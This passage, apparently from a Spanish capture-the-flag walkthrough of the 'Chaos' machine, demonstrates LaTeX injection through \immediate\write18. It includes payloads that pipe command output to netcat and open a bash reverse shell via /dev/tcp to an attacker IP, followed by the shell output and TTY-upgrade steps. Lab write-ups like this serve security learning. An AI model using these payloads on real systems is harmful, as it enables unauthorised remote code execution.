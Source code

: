 En [https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection#latex-injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection#latex-injection) hay distintos `payloads` a probar para explotar una `Latex Injection`. Lo primero es ponernos en `escucha` por `netcat`

```
# nc -nlvp 443
```

Ejecutamos este `payload` desde `Burp Suite`. Si la máquina víctima no tuviera `netcat`, podríamos haber usado el `/dev/tcp`

```
content=\immediate\write18{whoami+|+nc+10.10.16.28+443}&template=test3
```

Obtenemos un `RCE (Remote Code Execution)`

```
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.139.148] 44800
www-data
```

Usamos este `payload`

```
content=\immediate\write18{bash+-c+"bash+-i+>%26+/dev/tcp/10.10.16.28/443+0>%261"}&template=test3
```

`Recibimos` una `reverse shell`

```
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.139.148] 44864
bash: cannot set terminal process group (1545): Inappropriate ioctl for device
bash: no job control in this shell
www-data@chaos:/var/www/main/J00_w1ll_f1Nd_n07H1n9_H3r3/compile$ whoami
whoami
www-data
```

Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla`

```
# stty size
45 18
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation (First Method)
